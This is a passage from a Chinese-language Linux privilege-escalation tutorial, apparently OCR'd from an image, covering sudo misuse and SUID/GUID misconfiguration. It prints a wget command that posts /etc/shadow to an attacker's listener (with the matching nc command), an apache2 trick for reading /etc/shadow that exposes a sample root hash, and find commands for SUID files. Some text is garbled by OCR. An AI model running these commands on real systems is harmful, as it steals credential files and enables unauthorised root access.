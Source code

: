**注意：如果您要从服务器上转储文件，例如**root****的****ssh****密钥，****shadow**文件等。**

sudo wget —post-file = / etc / shadow 192.168.56.1:8080

攻击者的设置侦听器：nc –lvp 8080

### **使用**apache**命令**

但是，我们无法获得Shell和Cant编辑系统文件。

但是使用它我们可以查看系统文件。

sudo apache2 -f / etc / shadow

输出是这样的：

Syntax error on line 1 of /etc/shadow:Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

可悲的是没有shell。但是我们可以现在提取root哈希，然后在破解了哈希。

**0x007 linux提权-Suid和Guid配置错误**
-------------------------------

**描述**

SUID代表设置的用户ID，是一种Linux功能，允许用户在指定用户的许可下执行文件。例如，Linux ping命令通常需要root权限才能打开网络套接字。通过将ping程序标记为SUID（所有者为root），只要低特权用户执行ping程序，便会以root特权执行ping。

SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。

当运行具有suid权限的二进制文件时，它将以其他用户身份运行，因此具有其他用户特权。它可以是root用户，也可以只是另一个用户。如果在程序中设置了suid，该位可以生成shell或以其他方式滥用，我们可以使用它来提升我们的特权。

**以下是一些可用于产生**SHELL**的程序：**

nmap

vim

less more

nano

cpmv

find

**查找**suid****和****guid**文件**

Find SUID find / -perm -u=s -type f 2>/dev/null Find GUID find / -perm -g=s -type f 2>/dev/null

**其他命令**
